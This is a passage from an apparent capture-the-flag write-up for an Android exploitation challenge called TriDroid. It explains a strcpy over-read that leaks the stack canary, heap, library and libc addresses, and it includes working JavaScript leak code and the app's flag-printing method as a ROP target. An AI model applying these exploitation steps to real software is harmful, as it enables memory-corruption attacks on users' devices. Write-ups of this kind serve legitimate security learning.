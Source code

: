 Before using the arbitrary r/w, we need a leak first. We can use `modify` and `top` to leak some data from the stack because of `strcpy` copying data from stack directly to stack_top data in `modify_element`.

![modify leak](https://files.catbox.moe/doq9or.png)

So what we need to do is fill `var_38` until it reach just before canary.
```
[ var_38 (0x28 bytes) ][ canary ][ saved rbp ][ saved rip ]
```
By doing that, we can get canary, rbp and, libtridroid address leaked because `strcpy` copied past our buffer. We can also do the same to get heap leak by filling 16 bytes of data. There's some catch to this though, since our stack data is too small (only 16 bytes) there's a chance we are overwriting some important data on the heap. To get around it, we can use arb r/w primitive to make our stack top use unused heap region. Here's updated code to get all the leak including libc leak from strcpy GOT table in libtridroid.

If you are an avid ctf pwn player, you might be wondering why we can get the canary value when there is a null byte in canary. Apparently, this seems to be not the case on android bionic (android libc). Check out this link, [https://github.com/aosp-mirror/platform_bionic/blob/c44b1d0676ded732df4b3b21c5f798eacae93228/libc/bionic/__libc_init_main_thread.cpp#L113](https://github.com/aosp-mirror/platform_bionic/blob/c44b1d0676ded732df4b3b21c5f798eacae93228/libc/bionic/__libc_init_main_thread.cpp#L113), It's just a direct copy without any LSB bit cleared like the one in glibc [https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/dl-osinfo.h.html#64](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/dl-osinfo.h.html#64).

```js
stack_push("41414141414141414141414141414141"); // fill 16 bytes of stack data
var leak = stack_top();
var heap = u64(leak.slice(32));
var heap_n = u64(leak.slice(32)) & ~0xFFFn;
console.log("heap", "0x" + heap.toString(16));
console.log("heap_base", "0x" + heap_n.toString(16));

write(heap_n+0x3020n, "41".repeat(0x20))
write(heap_n+0x3040n, "41".repeat(0x8))
leak = read(heap_n+0x3020n);
var lib_base = u64(leak.substr(0x28 * 2, 12)) - 0x16ffn;
console.log("lib", "0x" + lib_base.toString(16));
write(heap_n+0x3020n, "41".repeat(0x28))
leak = read(heap_n+0x3020n);
var canary = leak.substr(0x28 * 2, 16);
console.log("canary", canary);
var stack = u64(leak.substr(0x30 * 2, 12));
console.log("stack", "0x" + stack.toString(16));
leak = read(lib_base + 0x2fa8n); // strcpy GOT
var strcpy = u64(leak);
var libc_base = strcpy - 0x53830n;
console.log("libc", "0x" + libc_base.toString(16));
```
We have all the thing required to ROP, but where to? If we take a look back at MainActivity, we have a showFlag method that will print encrypted base64 flag to android log.
```java
    public void showFlag() {
        try {
            Cipher instance = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            instance.init(1, this.secretKey, new IvParameterSpec(new byte[16]));
            Log.d("TriDroid", "Flag: " + new String(Base64.getEncoder().encode(instance.doFinal(this.flag.getBytes(StandardCharsets.UTF_8))), StandardCharsets.UTF_8));
        } catch (Exception e) {
            Log.e("TriDroid", "Showing flag has failed ...", e);
        }
    }
```
and in server.py, remote service will only show us the logcat content of TriDroid, 
```py
```